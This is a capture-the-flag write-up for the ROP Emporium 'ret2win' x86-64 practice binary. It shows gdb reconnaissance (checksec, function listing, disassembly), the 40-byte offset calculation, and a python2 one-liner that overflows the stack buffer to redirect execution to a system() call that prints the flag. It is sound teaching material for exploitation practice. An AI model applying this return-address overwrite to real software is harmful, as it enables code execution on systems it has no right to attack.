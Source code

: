 
### ret2win x86 64

Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.

Use gdb to gather information.
```
gdb ./ret2win
```
Check the security of ret2win.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.
List all functions.
```
gdb$ info functions
```
```
...
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
```
There is indeed a function called ret2win.
Disassemble ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x0000000000400764 <+14>:    mov    edi,0x400943
0x0000000000400769 <+19>:    call   0x400560 <system@plt>
...
```
The address of the syscall is 0x0000000000400764.

Overflow length will be 32 bytes(buffer) + 8 bytes (RBP) = 40 bytes.

Therefore, the overflow strings will be:
```
A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'
```
Run the process with overflow strings:
```
python2 -c "print 'A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'" | ./ret2win
```
It will show the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
